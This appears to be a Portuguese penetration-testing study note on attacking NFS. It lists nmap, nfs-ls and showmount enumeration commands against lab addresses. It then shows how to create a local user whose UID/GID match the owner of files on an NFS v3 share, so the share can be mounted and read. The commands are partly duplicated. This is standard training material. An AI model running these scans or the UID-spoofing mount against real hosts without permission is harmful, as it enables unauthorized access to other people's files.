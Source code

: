     sudo mount -o nolock <hostname>:/home /mnt/
    

     sudo nmap -sS -p 111,2049 --script nfs-showmount,nfs-ls 10.11.1.72
     
     
#### nfs-ls (libnfs-utils)
     
     #outra possibilidade também pode ser:
     sudo apt update
     sudo apt install libnfs-utils
     #Com isso a gente consegue fazer a enumeração das permissividades dos arquivos em modo recursivo
     nfs-ls -R nfs://10.11.1.72/home
     
     showmount -e 10.11.1.72
     
     nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254

 A premissa do NFS é o mesmo do SMB, compartilhar arquivos por meio da rede, acontece que no caso do NFS não é utilizado autenticação e autorização em suas versões 3 e 2, somente um grau de seguranã maior na sua versão 4.
 
 Para explorar essa vulnerabilidade, primeiro precisamos fazer a enumeração do serviço por meio dos seguintes comandos:
 
 
     sudo nmap -sS -p 111,2049 --script nfs-showmount,nfs-ls 10.11.1.72
     #outra possibilidade também pode ser:
     sudo apt update
     sudo apt install libnfs-utils
     #Com isso a gente consegue fazer a enumeração das permissividades dos arquivos em modo recursivo
     nfs-ls -R nfs://10.11.1.72/home
     
     showmount -e 10.11.1.72
     
     nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254


![qownnotes-media-wrgegz](../../media/qownnotes-media-wrgegz.png)

#### Exploitation

Assim que fizermos a enumeração, vamos identificar quais são os IDs pertinenetes aos arquivos lá constados no share via NFS, mas isso só é válido nas versões 2 e 3  do protocolo. A versão 4 já é mais segura! Basta adicionarmos o usuário e o grupo do usuário cujo uid e guid corespondem ao mesmo que foi identificao no momento da enumeração.

    sudo adduser --uid 1014 pwn
    sudo addgroup --gid 1014 pwn_group
    sudo usermod -a -G pwn_group pwn

    mount.nfs -o vers=3 10.11.1.72:/home /tmp/mount_dir
    
    

    

### MySQL

MySQL (3306/tcp)
